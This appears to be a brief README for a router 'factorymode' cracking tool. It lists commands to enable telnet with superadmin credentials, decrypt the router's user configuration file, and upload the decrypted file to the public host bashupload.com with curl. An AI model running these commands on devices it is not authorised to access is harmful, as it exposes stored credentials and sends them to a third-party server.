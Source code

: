 ## How-To

Enable Telnet & Get Credentials:
```
factorymode_crack.exe -l xxx open -i <routerip> -u <superadminuser> -pw <superadminpassword>
```

Access Telnet:
```
telnet <routerip>
```

Decrypt Configs:
```
sendcmd 1 DB decry /userconfig/cfg/db_user_cfg.xml
```

Upload Configs:
```
curl https://bashupload.com/db_user_cfg.xml -kT /tmp/debug-decry-cfg
```

Credits:

- https://www.jarvisw.com/?p=1517
- https://github.com/ixmu/Note/blob/578b7e99dd80022c0ee8fa14a8851d8107279320/%E5%AE%B6%E5%BA%AD%E5%AE%BD%E5%B8%A6%E9%85%8D%E7%BD%AEH2-3E.md
